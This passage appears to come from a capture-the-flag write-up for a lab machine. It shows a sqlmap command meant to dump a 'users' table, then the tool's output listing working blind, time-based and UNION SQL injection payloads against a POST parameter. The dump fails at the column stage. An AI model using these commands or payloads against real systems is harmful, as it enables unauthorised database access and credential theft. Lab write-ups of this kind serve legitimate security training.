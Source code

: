 Let’s dump the `users` table.
```bash
sqlmap -r req --batch -D vote -T users --dump
```

```sql
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.9.9.4#dev}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:34:15 /2025-09-28/

[13:34:15] [INFO] parsing HTTP request from 'req'
[13:34:15] [INFO] resuming back-end DBMS 'mysql'
[13:34:15] [INFO] testing connection to the target URL
got a 302 redirect to 'http://vote.cobblestone.htb/details.php?id=8'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: url (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: url=http://vote.cobblestone.htb/index.php' AND 5926=5926 AND 'GBwC'='GBwC

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SLEEP)
    Payload: url=http://vote.cobblestone.htb/index.php' AND SLEEP(5) AND 'CmvC'='CmvC

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: url=-6395' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x716b626271,0x5050685272454b637067796d43666d72656a42795669764e784141746e64484d527351556a745651,0x7178627171),NULL-- -
---
[13:34:17] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.62
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[13:34:17] [INFO] fetching columns for table 'users' in database 'vote'
[13:34:23] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[13:34:23] [WARNING] unable to retrieve column names for table 'users' in database 'vote'
do you want to use common column existence check? [y/N/q] N
[13:34:23] [WARNING] unable to enumerate the columns for table 'users' in database 'vote'
[13:34:23] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 9 times
[13:34:23] [INFO] fetched data logged to text files under '/home/rouxtronics/.local/share/sqlmap/output/vote.cobblestone.htb'

[*] ending @ 13:34:23 /2025-09-28/
```
